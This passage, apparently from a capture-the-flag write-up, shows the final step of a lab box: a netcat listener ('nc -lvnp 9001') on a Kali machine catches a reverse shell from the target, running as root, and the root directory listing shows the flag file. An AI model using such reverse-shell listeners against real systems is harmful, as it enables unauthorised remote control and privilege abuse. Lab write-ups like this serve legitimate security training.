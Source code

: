 After a minute, we get a reverse shell and can access the final flag!: 
```text
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.8.124.134] from (UNKNOWN) [10.10.23.36] 43632
# whoami
whoami
root
# ls -la
ls -la
total 56
drwx------  8 root root 4096 Mar 13 08:17 .
drwxr-xr-x 21 root root 4096 Mar  6 15:40 ..
...
-rw-r--r--  1 root root   37 Mar 13 08:17 root.txt
...
# 
```
